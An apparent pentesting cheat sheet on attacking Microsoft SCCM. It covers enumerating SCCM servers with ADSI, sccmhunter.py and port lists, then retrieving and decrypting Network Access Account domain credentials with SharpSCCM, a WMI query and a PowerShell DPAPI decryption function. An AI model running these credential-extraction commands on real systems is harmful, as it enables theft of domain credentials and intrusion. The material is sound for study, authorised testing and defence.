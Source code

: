 # SCCM
 - SharpSCCM: https://github.com/Mayyhem/SharpSCCM    

## Enumeration
On a SCCM managed endpoint, you can find the Configuration Manager client in the Control Panel, where you can find the configuration (e.g. Site Server and Site Name).
If you do not have access to such a managed client, there are other ways:   
- Using PowerShell ADSI: ([adsisearcher]"(objectClass=mSSMSManagementPoint)").FindAll().properties
- Using sccmhunter.py ( ) : python3 sccmhunter.py find -u username -p 'pass' -d domain.local -dc-ip dc1.domain.local 
- List SCCM accounts using sccmhunter.py: python3 sccmhunter.py show -users
- List SCCM computers using sccmhunter.py: python3 sccmhunter.py show -computers

Identifying SCCM servers from portscans (Nmap):    
- 8530, 8531, 10123 (Site Server, Management Point)
- 49152-49159 (Distribution Point)
- UDP 4011 (Operating System Deployment)
 
 ## Network Access Account
 Active Directory domain accounts used by systems that are not joined to AD.   
 SCCM deploys a so called "Network Access Account" to the workstations, which is used to access network shares. Pushed to every SCCM client in machine policy   
 Credentials are stored locally on clients as DPAPI blobs protected by the system's masterkey   
 - Retrievable via WMI as a privileged user
 - Remain in CIM repository (C:\Windows\System32\Wbem\Repository\OBJECTS.DATA) **after client is uninstalled or account rotation**

### NAA Creds
Retrieve and decrypt Network Access Account domain credentials from an SCCM client:   
`SharpSCCM.exe local naa wmi`   
WMI Query:   
`select * from CCM_NetworkAccessAccount`   

**Decrypt Credentials**   
The credentials can be extracted over DPAPI calls with the NT/SYSTEM user.   

```
# Source: https://github.com/rzander/sccmclictrlib/blob/46640553235664bf2da45dc7f6e1f09628a497b0/sccmclictr.automation/Properties/Resources.resx
function UnProtect-PolicySecret {
<#
    .SYNOPSIS
    Decrypts policy secrets (c) 2016 by Mattias Benninge
 
    .DESCRIPTION
    The UnProtect-PolicySecret CmdLet takes a encrypted string and returnsthe decrypted sting.
     
    .NOTES
    This function must be run under the local system account on the computer that encrypted the data.
   
    .EXAMPLE
    UnProtect-PolicySecret -data "F600000001000000D08C9DDF0115D1118C7A00C04FC297EB010000006AF233F693"
 
    .PARAMETER Data
    [String] Encrypted data
#>
 
    [CmdletBinding()]
    PARAM (
        [Parameter(Position=0,Mandatory=$true,HelpMessage="Encrypted sting",ValueFromPipeline=$true)][Alias("Data")][String] $strData
    )
                              
    # Chop string up into bytes, and drop the first 4 bytes
    [System.Byte[]]$byteData = New-Object System.Byte[] $($strData.length / 2 - 4)
    for ($i = 0; $i -lt (($strData.length / 2) - 4); $i++)
    {
        $byteData[$i] = [System.Convert]::ToByte($strData.substring(($i + 4) * 2, 2),16)
    }
 
    #Add the security type assembly
    Add-Type -AssemblyName System.Security
             
    #Decrypt the data
    $bytePlainText = [System.Security.Cryptography.ProtectedData]::Unprotect($byteData , $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
    return $([System.Text.UnicodeEncoding]::Unicode.GetString($bytePlainText))
}
```
